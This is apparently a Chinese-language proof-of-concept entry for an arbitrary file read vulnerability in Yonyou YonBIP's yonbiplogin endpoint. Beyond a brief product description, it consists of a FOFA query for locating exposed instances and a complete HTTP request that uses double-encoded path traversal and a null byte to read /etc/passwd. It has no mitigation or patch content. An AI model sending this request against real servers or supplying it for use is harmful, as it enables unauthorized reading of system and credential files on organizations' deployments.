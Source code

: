 # 用友YonBIP高级版yonbiplogin存在任意文件读取漏洞
YonBIP用友商业创新平台，是用友在数字经济时代面向成长型、大型企业及巨型企业，融合了先进且高可用技术平台和公共与关键商业应用与服务，支撑和运行客户的商业创新（业务创新、管理变革），并且具有数字化、智能化、高弹性、安全可信、社会化、全球化、平台化、生态化等特征的综合型服务平台。用友YonBIP高级版yonbiplogin存在任意文件读取漏洞

## fofa
```javascript
title="YonBIP" || title="数字化工作台"
```

![](https://cdn.nlark.com/yuque/0/2023/png/1622799/1699617335151-ab45cdc1-ba2a-4518-8a9d-5aa6a95e7263.png)

## poc
```plain
GET /iuap-apcom-workbench/ucf-wh/yonbiplogin/..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252Fetc%252Fpasswd%2500.png.js HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Connection: close
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip, deflate, br
```

![](https://cdn.nlark.com/yuque/0/2024/png/29512878/1731492309168-0423a749-4e24-497f-81f0-6ca9908af8d6.png)

